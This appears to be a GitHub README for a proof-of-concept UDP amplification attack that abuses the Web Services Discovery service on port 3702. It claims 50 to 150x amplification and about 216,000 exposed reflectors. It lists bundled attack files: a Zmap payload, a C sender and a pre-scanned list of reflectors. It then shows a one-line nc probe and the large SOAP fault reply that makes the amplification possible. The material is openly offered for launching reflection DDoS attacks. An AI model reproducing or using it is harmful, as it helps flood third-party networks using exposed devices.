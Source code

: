 # Web Service Discovery protocol amplification PoC (port 3702)

Yet another bloody UDP insecure service, this time similar to other abused SOAP protocols but needing no trigger payload.
Shodan showed 216,313 possible reflectors with the biggest number from Vietnam followed by United States.

I'm not Akamai so ill be waiting to see their report, but from what I can measure with overhead additions, the amps range from 50 to 150x.

I've scanned and filtered a list that will be alongside this script.

- WSD_3702.pkt - Zmap payload ("<\xaa>" or any WSD centric discovery payload will work)
- wsd.c - Standard socket template with my corrections
- wsd.list - Example amp list

Example: nc -u x.x.x.x 3702 < <(echo ':')
Output:
`
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Fault xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsdd="http://schemas.xmlsoap.org/ws/2005/04/discovery" xmlns:chan="http://schemas.microsoft.com/ws/2005/02/duplex" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:tdn="http://www.onvif.org/ver10/network/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:trp="http://www.onvif.org/ver10/replay/wsdl" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl"><faultcode>SOAP-ENV:Client</faultcode><faultstring>No tag: no XML root element or missing SOAP message body element</faultstring></SOAP-ENV:Fault>
`

